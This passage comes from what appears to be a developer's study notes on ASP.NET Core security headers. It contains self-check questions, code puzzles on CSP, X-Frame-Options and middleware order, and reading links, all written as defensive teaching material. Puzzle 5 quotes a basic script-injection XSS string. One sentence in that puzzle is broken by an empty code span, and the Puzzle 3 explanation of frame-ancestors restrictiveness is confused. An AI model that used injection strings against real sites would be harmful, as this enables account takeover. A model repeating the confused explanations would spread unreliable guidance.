6. What does `frame-ancestors 'none'` in CSP do, and how does it relate to `X-Frame-Options: DENY`? When both headers are present with conflicting values, which one does a modern browser honor?
    
7. In the canonical ASP.NET Core middleware pipeline, should your security headers middleware run before or after `app.UseExceptionHandler()`? What is the consequence of getting this order wrong, and what specific scenario does it break?
    
8. A colleague suggests setting `Strict-Transport-Security` (HSTS) inside your custom security headers middleware. Is this correct? What is wrong with it?
    
9. What `Referrer-Policy` value would you choose for a healthcare patient portal where URLs often contain patient ID parameters? Justify your choice.
    
10. Your CSP policy includes `script-src 'self' 'nonce-abc123' 'unsafe-inline'`. Is this policy effective at preventing XSS? Explain what happens when both a nonce and `'unsafe-inline'` are present.
    

---

### B. Code Puzzles

**Puzzle 1: What security headers does this application emit on `GET /api/orders`? What about `GET /index.html`? What about `GET /nonexistent`?**

```csharp
var app = builder.Build();

app.UseExceptionHandler("/error");
app.UseHsts();
app.UseStaticFiles();                      // serves /index.html from wwwroot
app.UseSecurityHeaders(opts =>
    opts.FrameOptions = "DENY");
app.UseRouting();
app.MapGet("/api/orders", () => Results.Ok(new[] { "order1" }));
app.MapGet("/error", () => Results.Problem("Internal error", statusCode: 500));

app.Run();
```

<details> <summary>Answer</summary>

**`GET /api/orders`**: **Has security headers.** The request does not match `UseStaticFiles()` (which only serves files from `wwwroot`), so it falls through to `UseSecurityHeaders()`, which runs and sets the headers before routing dispatches to the endpoint.

**`GET /index.html`**: **Does NOT have security headers.** `UseStaticFiles()` runs before `UseSecurityHeaders()` in registration order. Static files middleware matches the request, writes the file response, and short-circuits the pipeline — `UseSecurityHeaders()` never runs. `/index.html` is served without any security headers.

**`GET /nonexistent`**: **Has security headers.** The request passes through `UseStaticFiles()` (no matching file), then reaches `UseSecurityHeaders()`, which runs. Routing finds no matching endpoint and returns a 404. The security headers were already set in memory before `_next()` was called, so they appear on the 404 response.

**Fix:** Move `UseSecurityHeaders()` before `UseStaticFiles()`:

```csharp
app.UseExceptionHandler("/error");
app.UseSecurityHeaders(opts => opts.FrameOptions = "DENY"); // ← before static files
app.UseHsts();
app.UseStaticFiles();
```

Now all three paths — `/api/orders`, `/index.html`, and `/nonexistent` — carry security headers.

</details>

---

**Puzzle 2: Is this CSP configuration effective? What's wrong with it?**

```csharp
app.Use(async (context, next) =>
{
    var nonce = Guid.NewGuid().ToString("N");
    context.Items["nonce"] = nonce;
    context.Response.Headers["Content-Security-Policy"] =
        $"default-src 'self'; script-src 'self' 'nonce-{nonce}' 'unsafe-inline'; " +
        $"style-src 'self' 'unsafe-inline'; object-src 'none'";
    await next(context);
});
```

```html
<!-- In the Razor view: -->
<script nonce="@(Context.Items["nonce"])">initApp();</script>
<script src="/js/app.js"></script>
```

<details> <summary>Answer</summary>

**The nonce is worthless because `'unsafe-inline'` is also present in `script-src`.**

When both `'nonce-...'` and `'unsafe-inline'` appear in `script-src`, modern browsers (Chrome, Firefox, Safari) follow the spec: **nonces take precedence and `'unsafe-inline'` is ignored for browsers that understand nonces**. This sounds fine, but the real problem is:

1. For older browsers that support `'unsafe-inline'` but not nonces, `'unsafe-inline'` allows all inline scripts — zero XSS protection.
2. The developer intent was "allow this nonce AND also allow all inline scripts" — which means no protection was intended. Adding `'unsafe-inline'` suggests the developer doesn't understand that nonces replace `'unsafe-inline'`, not complement it.

**Also wrong:** `style-src 'self' 'unsafe-inline'` allows attacker-injected inline CSS, which can be used for CSS injection attacks (data exfiltration via attribute selectors + `url()` callbacks). Should be `style-src 'self' 'nonce-{nonce}'` to match the script policy.

**Correct version:**

```csharp
context.Response.Headers["Content-Security-Policy"] =
    $"default-src 'self'; " +
    $"script-src 'self' 'nonce-{nonce}'; " +    // ← remove 'unsafe-inline'
    $"style-src 'self' 'nonce-{nonce}'; " +     // ← nonce for styles too
    $"object-src 'none'";
```

</details>

---

**Puzzle 3: What does the browser do when it receives this response for a page that is being loaded inside an `<iframe>` on `https://attacker.com`?**

```
HTTP/1.1 200 OK
Content-Type: text/html
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self' https://partner.example.com
```

<details> <summary>Answer</summary>

**The browser honors CSP `frame-ancestors` and blocks the framing** — even though `X-Frame-Options: SAMEORIGIN` might have allowed same-origin framing, the CSP `frame-ancestors` directive takes precedence in all modern browsers (Chrome, Firefox, Safari, Edge) when both headers are present.

The frame-ancestors policy is `'self' https://partner.example.com`. The requesting origin is `https://attacker.com`, which matches neither. The browser refuses to render the page inside the iframe.

**The subtlety:** If `X-Frame-Options: SAMEORIGIN` were the only header, and the parent frame were at `https://app.example.com` (same origin as the framed page), it would be _allowed_. But `frame-ancestors 'self' https://partner.example.com` is MORE restrictive than `SAMEORIGIN` in the sense that it only allows two specific origins — not all same-origin sources. When CSP overrides XFO, the effective policy is the CSP's `frame-ancestors`.

**Practical implication:** If you set `X-Frame-Options: DENY` (deny all) but `Content-Security-Policy: frame-ancestors 'self'` (allow same-origin), the CSP wins in modern browsers and same-origin framing IS allowed. Ensure both headers are consistent.

</details>

---

**Puzzle 4: Where is the bug? What does the response to `GET /dashboard` look like?**

```csharp
app.UseExceptionHandler("/error");

app.Use(async (context, next) =>
{
    await next(context);  // downstream runs first
    // Then write security headers
    context.Response.Headers["X-Content-Type-Options"] = "nosniff";
    context.Response.Headers["X-Frame-Options"] = "DENY";
});

app.UseStaticFiles();
app.UseRouting();
app.MapGet("/dashboard", () => Results.Ok("dashboard"));
```

<details> <summary>Answer</summary>

**The security headers are written AFTER `next()` is called.** This means the endpoint (`Results.Ok("dashboard")`) runs first. `Results.Ok()` calls `context.Response.WriteAsJsonAsync()`, which flushes the response headers and begins writing the body. By the time the `await next(context)` returns and execution reaches lines 5–6, `context.Response.HasStarted` is `true`.

**Response to `GET /dashboard`:**

```
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 11
← X-Content-Type-Options: MISSING
← X-Frame-Options: MISSING

"dashboard"
```

The header assignments on lines 5–6 are **silently ignored** because the response has already started (headers already sent to the network). No exception is thrown by default in Kestrel — the assignments simply have no effect.

**Fix:** Set headers BEFORE calling `next()`:

```csharp
app.Use(async (context, next) =>
{
    context.Response.Headers["X-Content-Type-Options"] = "nosniff";
    context.Response.Headers["X-Frame-Options"] = "DENY";
    await next(context); // headers are already in the buffer; flushed when endpoint writes
});
```

Or use `Response.OnStarting()` if you need the headers written conditionally after inspecting the response (e.g., skipping security headers on 304 Not Modified responses).

</details>

---

**Puzzle 5 (The common misunderstanding puzzle): This developer believes their app is protected from XSS because they have CSP enabled. Is the protection effective?**

```csharp
// Startup configuration:
app.Use(async (context, next) =>
{
    context.Response.Headers["Content-Security-Policy"] =
        "default-src 'self'; script-src 'self' 'unsafe-eval'; object-src 'none'";
    await next(context);
});
```

```html
<!-- Razor view: -->
<div id="user-bio">@Html.Raw(Model.UserBio)</div>
<!-- UserBio is attacker-controlled content from the database -->
```

<details> <summary>Answer</summary>

**The CSP is largely ineffective, and `Html.Raw()` introduces a direct XSS vulnerability that CSP alone cannot fix.**

**Problem 1 — `Html.Raw()` bypasses ASP.NET Core's automatic HTML encoding.** The standard `@Model.UserBio` in Razor auto-encodes HTML entities (`<script>` becomes `&lt;script&gt;`). `Html.Raw()` outputs the value verbatim. If `UserBio` contains `<script>alert('xss')</script>`, it is injected directly into the DOM as executable HTML.

**Problem 2 — `'unsafe-eval'` in `script-src`.** The presence of `'unsafe-eval'` enables `eval()`, `setTimeout(string)`, `new Function(string)`, and similar constructs. An attacker who finds any way to pass a string to `eval()` (common in legacy jQuery plugins, templating engines, and some analytics scripts) can execute arbitrary code. CSP with `'unsafe-eval'` is significantly weaker than without it.

**Problem 3 — No `'unsafe-inline'` but the injected script IS inline.** Actually, this policy _would_ block `<script>alert()</script>` because there's no `'unsafe-inline'`. But `` would still execute because event handlers are considered inline scripts — and `object-src 'none'` doesn't prevent `onerror` on images. In many browsers, CSP v2 blocks `onerror` inline handlers when `'unsafe-inline'` is absent, but this depends on the browser version.

**The real fix has two parts:**

1. Remove `Html.Raw()` and use `@Model.UserBio` (auto-encoded) — or sanitize the input before storage.
2. Remove `'unsafe-eval'` from CSP, add a nonce for any legitimate inline scripts.

**Key lesson:** CSP is a _second layer of defense_. It does not replace proper output encoding. An `Html.Raw()` with attacker-controlled content is a direct XSS vulnerability that CSP with `'unsafe-eval'` may or may not block depending on the injection vector. Fix the root cause (output encoding), then add CSP as defense-in-depth.

</details>

---

## PART 9 — Connections & Resources

### A. Related Topics Table

|Topic|Why It Connects|
|---|---|
|[[4.208 — HTTPS Enforcement: UseHttpsRedirection, HSTS, and Kestrel TLS]]|HSTS (`Strict-Transport-Security`) is itself a security header; the topic introduces the security-headers-as-middleware pattern that 4.213 extends across the full family|
|[[4.209 — CORS: UseCors, CorsPolicy, AllowedOrigins, and Preflight Handling]]|CORS and CSP `connect-src` are complementary: CORS controls what the server accepts from cross-origin callers; CSP `connect-src` controls what the browser allows the client-side script to call; both must be consistent|
|[[4.210 — CSRF / Antiforgery: IAntiforgery and ValidateAntiforgeryToken]]|CSP `form-action 'self'` and `X-Frame-Options: DENY` directly reduce CSRF attack surface by preventing form submissions to attacker domains and clickjacking overlays respectively|
|[[4.214 — XSS Prevention: HTML Encoding, CSP, and the HtmlEncoder Service]]|CSP is introduced here as a header; 4.214 deepens it into full XSS defence: output encoding (HtmlEncoder), DOM-based XSS, Razor's auto-encoding, and the interplay between server-side encoding and CSP|
|[[4.218 — OWASP Top 10 Applied to ASP.NET Core APIs]]|Security headers address OWASP A05 (Security Misconfiguration) directly — a missing `X-Content-Type-Options` or absent CSP is a textbook A05 finding in any security audit|
|[[4.052 — Middleware Ordering: The Canonical Order and Why It Matters]]|Security headers middleware must be registered before `UseStaticFiles()` and in a specific position relative to `UseExceptionHandler()`; incorrect ordering is the primary source of security header gaps|
|[[4.125 — HttpResponse: Writing Status, Headers, Cookies, and Streaming Body]]|`Response.HasStarted`, `Response.OnStarting()`, and the header-commit-on-first-write model are the mechanics that determine when security headers can still be modified vs when they're frozen|
|[[4.049 — The Middleware Pipeline: Request Delegation Chain]]|Security headers middleware is the canonical example of a "before-and-after" middleware that sets headers before `next()` — the pipeline bidirectionality (request in, response out) is what makes this pattern work|
|[[4.059 — Conditional Middleware: Environment-Specific Pipeline Behavior]]|Development CSP must be permissive (`'unsafe-inline'`, `'unsafe-eval'`, `localhost:*`) to support hot-reload tooling; production CSP must be strict — conditional middleware registration is the correct way to manage this|
|[[4.183 — Correlation IDs: Request Tracing Across Service Boundaries]]|CSP violation reports (`report-to`) are effectively a specialized diagnostic signal, similar in pipeline pattern to correlation ID middleware — both involve middleware writing headers that browsers or upstreams act on|

### B. Books

|Book|Chapters|Why These Chapters|
|---|---|---|
|_The Web Application Hacker's Handbook_ — Stuttard & Pinto|Ch. 12 (Attacking Users: XSS), Ch. 13 (Attacking Users: Other Techniques)|Chapter 12 explains the XSS attack vectors that CSP was designed to block; Chapter 13 covers clickjacking in depth — the attack that `X-Frame-Options` and CSP `frame-ancestors` defend against|
|_Pro ASP.NET Core 8_ — Adam Freeman|Ch. 16 (Security), Ch. 38 (Advanced Security)|Chapter 16 covers the security middleware stack; Chapter 38 covers CSP integration with Razor views including the nonce pattern and tag helpers|
|_Security Engineering_ (3rd ed.) — Ross Anderson|Ch. 21 (Web and Cloud Security)|Chapter 21 provides the theoretical grounding for browser security models that makes security headers comprehensible as a defence-in-depth layer rather than isolated fixes|
|_Real-World Bug Hunting_ — Peter Yaworski|Ch. 7 (XSS), Ch. 9 (Clickjacking)|Chapter 7 shows real XSS bypasses of weak CSP policies (including `'unsafe-inline'` bypasses); Chapter 9 shows real clickjacking exploits where `X-Frame-Options` was absent — the offensive perspective makes the headers' importance concrete|

### C. Essential Articles & Docs

- **OWASP Secure Headers Project**: `https://owasp.org/www-project-secure-headers/` — the authoritative checklist of security headers with recommended values, browser support table, and worst-practice warnings.
- **MDN: Content-Security-Policy**: `https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy` — the most complete reference for every CSP directive with browser compatibility tables.
- **Andrew Lock — Adding Security Headers with NetEscapades.AspNetCore.SecurityHeaders**: `https://andrewlock.net/adding-default-security-headers-in-asp-net-core/` — the original series introducing the library; explains the pipeline registration pattern and middleware ordering.
- **securityheaders.com** (Scott Helme): `https://securityheaders.com/` — free online scanner that grades HTTP responses against OWASP security header recommendations; use this to audit every deployment.
- **CSP Evaluator** (Google): `https://csp-evaluator.withgoogle.com/` — pastes a CSP header value and identifies bypasses, weak directives, and `'unsafe-*'` flags with severity ratings; essential for policy review.
- **MDN: X-Frame-Options**: `https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options` — documents the `ALLOW-FROM` deprecation and the CSP `frame-ancestors` migration path.

---

> [!NOTE] **Template Meta-Note — what each part of this note is for:**
> 
> - **Part 0 — Navigation:** Domain hierarchy, prerequisites, dependents, and the one-sentence production relevance statement to orient you before reading.
> - **Part 1 — Core Mental Model:** The single-sentence rule, a physical analogy that survives edge cases (including the attack case), and the full taxonomy Mermaid diagram covering every security header and its relationship to ASP.NET Core implementation options.
> - **Part 2 — Deep Mechanics:** Pipeline position ASCII diagram, HTTP wire format for each header family, framework-internal behavior (what ASP.NET Core does vs doesn't do automatically), MIME sniffing attack anatomy, CSP nonce mechanics and directive vocabulary, algorithm for each header's semantic, runtime cost labels.
> - **Part 3 — Production Code Patterns:** 7 annotated patterns from baseline middleware to nonce TagHelpers, Report-Only rollout, environment-conditional CSP, NetEscapades library, API-specific minimal headers, and the anti-pattern of per-action header setting.
> - **Part 4 — Gotchas:** 5 production bugs including: wrong middleware order (StaticFiles), `'unsafe-inline'` nullifying CSP, headers after response started, deprecated `ALLOW-FROM`, and unnecessary nonce generation on JSON APIs.
> - **Part 5 — Performance:** Pipeline cost table from zero-allocation static fields to CDN-level alternatives, BenchmarkDotNet comparing 4 header-writing strategies, explicit when-to-care / when-to-ignore guidance.
> - **Part 6 — Interview Arsenal:** 3 question bank entries with average vs great answers (pipeline-aware, HTTP-consequence-grounded), 5 trick questions with traps and correct answers, 8 red flags including the most common interview-failing statements.
> - **Part 7 — Decision Framework:** Mermaid flowchart routing by response type (HTML / JSON API / static files / errors) to correct header set, nonce vs static CSP, brownfield Report-Only rollout, and high-traffic allocation optimization.
> - **Part 8 — Self-Check:** 10 conceptual questions covering pipeline mechanics, attack anatomy, and header semantics; 5 code puzzles asking "what headers appear?" and "is this policy effective?" with collapsed answers including HTTP wire examples.
> - **Part 9 — Connections:** Related topic wiki-links with specific pipeline/security dependency explanations, 4 books at chapter precision, and 6 authoritative links (OWASP, MDN, Andrew Lock, Google CSP Evaluator, securityheaders.com).